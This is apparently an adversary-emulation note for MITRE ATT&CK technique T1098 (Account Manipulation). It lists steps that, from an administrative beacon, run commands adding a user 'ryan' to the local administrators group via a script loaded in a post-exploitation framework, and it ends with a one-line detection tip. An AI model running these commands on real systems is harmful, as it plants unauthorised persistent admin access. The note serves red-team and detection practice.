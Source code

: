 # [Account Manipulation](https://attack.mitre.org/techniques/T1098/)

## Exploit syntax:
1. Get a beacon with administrative privileges.

2. In parrot open a blank text file and paste the following commands into it
    ```sh
    net user /add ryan;
    net localgroup administrators /add ryan;
    ```

3. Save the file with as Pencilvester.ps1 to /tmp

4. Run
	```sh
	sudo chmod +x /tmp/Pencilvester.ps1
	```

5.  In posh, run
    ```sh
	pslo /tmp/Pencilvester.ps1
    ```

## Detection Technique:
* Monitor windows events related to account manipulation
